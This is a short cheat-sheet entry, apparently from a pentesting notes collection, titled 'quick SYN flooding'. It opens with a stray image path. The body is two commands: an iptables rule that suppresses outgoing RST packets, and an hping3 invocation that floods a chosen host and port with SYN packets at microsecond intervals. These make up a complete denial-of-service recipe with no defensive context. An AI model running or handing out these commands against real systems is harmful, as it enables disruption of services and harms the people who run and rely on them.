 # quick SYN flooding
Temporary drop all the sent RST requests
```bash
iptables -A OUTPUT -p tcp --tcp-flags RST RST -j DROP
```
Send SYN packets separated by u1 interval
```bash
hping3 -i u1 -S -p <port> <host>
```